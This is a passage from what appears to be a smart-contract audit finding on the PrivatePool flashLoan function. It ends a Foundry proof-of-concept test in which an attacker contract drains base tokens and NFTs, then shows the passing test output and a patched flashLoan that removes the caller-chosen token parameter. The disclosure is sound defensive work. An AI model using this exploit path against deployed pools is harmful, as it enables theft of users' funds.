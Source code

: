 ```solidity
        uint tokenIdOfPrivatePool = uint256(uint160(address(privatePool)));
        factory.transferFrom(bob, alice, tokenIdOfPrivatePool);

        assertEq(factory.ownerOf(tokenIdOfPrivatePool), alice);

        uint balanceBeforeAttack = baseToken.balanceOf(bob);
        uint erc721BalanceBeforeAttack = milady.balanceOf(bob);

        // Bob runs the exploit
        privatePoolExploit.attack(tokenIds);

        uint balanceAfterAttack = baseToken.balanceOf(bob);
        uint erc721BalanceAfterAttack = milady.balanceOf(bob);

        assertEq(balanceAfterAttack, balanceBeforeAttack + baseTokenAmount - changeFee);
        assertEq(erc721BalanceAfterAttack, erc721BalanceBeforeAttack + tokenIds.length);
    }
}
```

Result of the test
```
Running 1 test for test/PrivatePool/Attack.t.sol:AttackTest
[PASS] test_exploit() (gas: 1182634)
Test result: ok. 1 passed; 0 failed; finished in 7.15ms
```

## Tools Used
Foundry/VSCode

## Recommended Mitigation Steps
The contract caller should not be able to choose the token address in the `PrivatePool.flashLoan`
function because there is no way to know if the token contract is actually an ERC721 contract.

Suggest removing `token` from function input parameters and using `nft` token everywhere, where `token` was used.

```solidity
    function flashLoan(IERC3156FlashBorrower receiver, uint256 tokenId, bytes calldata data)
        external
        payable
        returns (bool)
    {
        address nftAddress = nft;
        // check that the NFT is available for a flash loan
        if (!availableForFlashLoan(nftAddress, tokenId)) revert NotAvailableForFlashLoan();

        // calculate the fee
        uint256 fee = flashFee(nftAddress, tokenId);

        // if base token is ETH then check that caller sent enough for the fee
        if (baseToken == address(0) && msg.value < fee) revert InvalidEthAmount();

        // transfer the NFT to the borrower
        ERC721(nftAddress).safeTransferFrom(address(this), address(receiver), tokenId);

        // call the borrower
        bool success =
            receiver.onFlashLoan(msg.sender, nftAddress, tokenId, fee, data) == keccak256("ERC3156FlashBorrower.onFlashLoan");

        // check that flashloan was successful
        if (!success) revert FlashLoanFailed();

```